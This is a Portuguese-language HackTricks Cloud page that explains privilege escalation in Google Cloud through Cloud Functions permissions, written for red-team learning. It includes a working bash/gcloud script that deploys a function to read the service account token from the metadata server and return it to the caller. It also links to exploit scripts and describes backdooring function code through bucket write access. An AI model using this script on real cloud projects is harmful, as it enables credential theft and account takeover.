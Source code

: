 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Mais informações sobre Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Um atacante com esses privilégios pode **criar uma nova Cloud Function com código arbitrário (malicioso) e atribuí-la a uma Service Account**. Em seguida, vazar o token da Service Account a partir dos metadados para escalar privilégios para ela.\
Alguns privilégios para acionar a função podem ser necessários.

Scripts de exploração para este método podem ser encontrados [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) e [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) e o arquivo .zip pré-construído pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Um atacante com esses privilégios pode **modificar o código de uma Function e até mesmo modificar a service account anexada** com o objetivo de exfiltrar o token.

{% hint style="danger" %}
Para implantar funções em nuvem, você também precisará de permissões actAs sobre a service account padrão de computação ou sobre a service account que é usada para construir a imagem.
{% endhint %}

Alguns privilégios extras, como a permissão `.call` para a versão 1 de cloudfunctions ou o papel `role/run.invoker` para acionar a função, podem ser necessários.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Se você receber o erro `Permission 'run.services.setIamPolicy' denied on resource...` é porque você está usando o parâmetro `--allow-unauthenticated` e não tem permissões suficientes para isso.
{% endhint %}

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Com esta permissão, você pode obter uma **URL assinada para poder fazer o upload de um arquivo para um bucket de função (mas o código da função não será alterado, você ainda precisa atualizá-lo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Não tenho certeza de quão útil apenas esta permissão é do ponto de vista de um atacante, mas é bom saber.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dê a si mesmo qualquer um dos privilégios anteriores **`.update`** ou **`.create`** para escalar.

### `cloudfunctions.functions.update`

Ter apenas permissões de **`cloudfunctions`**, sem **`iam.serviceAccounts.actAs`**, você **não poderá atualizar a função, ENTÃO ISTO NÃO É UM VÁLIDO PRIVESC.**

### Acesso de Leitura e Escrita sobre o bucket

Se você tiver acesso de leitura e escrita sobre o bucket, pode monitorar mudanças no código e sempre que uma **atualização no bucket acontecer, você pode atualizar o novo código com seu próprio código** para que a nova versão da Cloud Function seja executada com o código backdoored enviado.

Você pode verificar mais sobre o ataque em:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

No entanto, você não pode usar isso para pré-comprometer Cloud Functions de terceiros, porque se você criar o bucket em sua conta e der permissões públicas para que o projeto externo possa escrever sobre ele, você recebe o seguinte erro:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
No entanto, isso pode ser usado para ataques DoS.
{% endhint %}

### Acesso de Leitura e Escrita sobre o Artifact Registry

Quando uma Cloud Function é criada, uma nova imagem docker é enviada para o Artifact Registry do projeto. Tentei modificar a imagem com uma nova e até mesmo excluir a imagem atual (e a imagem `cache`), e nada mudou, a cloud function continuou funcionando. Portanto, talvez **possa ser possível abusar de um ataque de Condição de Corrida** como com o bucket para mudar o contêiner docker que será executado, mas **apenas modificar a imagem armazenada não é possível para comprometer a Cloud Function**.

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
